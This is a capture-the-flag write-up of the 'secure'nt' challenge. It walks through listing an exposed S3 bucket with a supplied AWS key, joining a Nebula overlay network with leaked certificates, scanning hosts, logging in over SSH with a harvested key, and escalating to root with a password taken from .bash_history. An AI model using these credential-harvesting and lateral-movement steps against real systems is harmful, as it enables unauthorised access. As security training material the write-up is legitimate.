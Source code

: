 # secure'nt internals

## Flag 01

On the challenge provisioning page, we received an AWS access key and website URL. The website's HTML source code includes a link to an S3 bucket.

```console
[MacBook-Pro ~] (13s)$ export AWS_PROFILE=securent
[MacBook-Pro ~]$ aws sts get-caller-identity
{
    "UserId": "AIDASECYGINV2XHRMGODQ",
    "Account": "146213847915",
    "Arn": "arn:aws:iam::146213847915:user/y1dk85-user"
}
```

```html
<section id="home" class="hero">
    <div class="hero-content">
        <h2>secure'nt</h2>
        <p>Fortifying Your Home Network with DIY Cyber Solutions</p>
        <a href="#services" class="cta-button">Explore My Lab</a>
        <br>
        <br>
        <!-- y1dk85-website.s3.us-west-2.amazonaws.com/ -->
    </div>
</section>
```

```console
[MacBook-Pro ~]$ aws s3 ls s3://y1dk85-website
                           PRE admin/
                           PRE restricted_content
[MacBook-Pro ~]$ aws s3 ls s3://y1dk85-website/restricted_content/
2025-10-16 19:38:53        247 ca.crt
2025-10-16 19:38:53         40 flag.txt
2025-10-16 19:38:53        607 operator-conf.yaml
2025-10-16 19:38:53        312 operator.crt
2025-10-16 19:38:53        127 operator.key
```

In `flag.txt`:

```
HF-c3df32be-33a3-4ca6-8f25-5d966f0c5f31
```

🚩

## Flag 02

We found configuration files for [Nebula: Open Source Overlay Networking](https://nebula.defined.net/docs/). Nebula looks similar to Tailscale.

The private key appears to be in the `operator` group:

```console
[MacBook-Pro nebula]$ nebula-cert print -path operator.crt
NebulaCertificate {
	Details {
		Name: operator
		Ips: [
			10.13.37.11/24
		]
		Subnets: []
		Groups: [
			"operator"
		]
		Not before: 2025-10-17 05:49:58 +0200 CEST
		Not After: 2026-10-17 05:49:57 +0200 CEST
		Is CA: false
		Issuer: 91f4012f13bcc65b33d55ea16661f3f8a0992c16d283c576496f3f60643fbc12
		Public key: f1eca932b47f025a0ff0dd86744310dffb39bd84aaa523a4e9f20590119b1142
		Curve: CURVE25519
	}
	Fingerprint: 1b2f1ad7a3e83c8d2f7a73baa360325105a09c7aa2739c3ba50afb7f5f198b04
	Signature: d5d26b9e247956b158257ea2647a014412ba8799c1c062877cca7c12a0ed2c24ff9611617d892c08347264fbaecd1155cb94d9c65d96790245e036e31b309e0b
}
```

Handshakes in the Nebula logs reveal the existence of a few hosts, and nmap finds an HTTP service running on `home-pc`:

```console
INFO[0765] Handshake message received                    certName=home-pc durationNs=334577666 fingerprint=59423139a8b1477d165976cffb2753a03a6ba6bb09365b53e14daf536e50265f handshake="map[stage:2 style:ix_psk0]" initiatorIndex=2436728177 issuer=91f4012f13bcc65b33d55ea16661f3f8a0992c16d283c576496f3f60643fbc12 remoteIndex=2436728177 responderIndex=2499735836 sentCachedPackets=1 udpAddr="44.244.212.27:4242" vpnIp=10.13.37.2
```

- `lighthouse` - 10.13.37.3
- `home-pc` - 10.13.37.2
- `dev-pc` - 10.13.37.12
- `vault-pc` - 10.13.37.13

We connect to the HTTP service in `home-pc,` which is a file server, and can get an SSH key we use to log in. 

```console
ssh -i id_rsa ubuntu@10.13.37.2
```

From there, `.bash_history` shows the updated `root` user password, which is `WZnKEUBE1G`.

`su root` and find the flag in the home directory.

🚩

## The Search for Flag 03

We never found Flag 03. We discovered that `home-pc` was running Nebula with a different user group that had network access to `dev-pc`:

```console
[MacBook-Pro home-pc-nebula]$ nebula-cert print -path host.crt
NebulaCertificate {
	Details {
		Name: home-pc
		Ips: [
			10.13.37.2/24
		]
		Subnets: []
		Groups: [
			"home"
		]
		Not before: 2025-10-17 05:49:58 +0200 CEST
		Not After: 2026-10-17 05:49:57 +0200 CEST
		Is CA: false
		Issuer: 91f4012f13bcc65b33d55ea16661f3f8a0992c16d283c576496f3f60643fbc12
		Public key: bc5c7fdb5dc169fdccd9a31b0a67f42bda2a583170786639398276a413877e2e
		Curve: CURVE25519
	}
	Fingerprint: 59423139a8b1477d165976cffb2753a03a6ba6bb09365b53e14daf536e50265f
	Signature: ea5990ec23729020a400dc09b32801b78cf7d47d557308d24a29411ae7ccd22695faa38d6ad3317cdb9a3db441c139c46687e305614cef19102626163d2b7e0c
}
```

We could hit an SSH server on `dev-pc`, but couldn't figure out how to sign in.
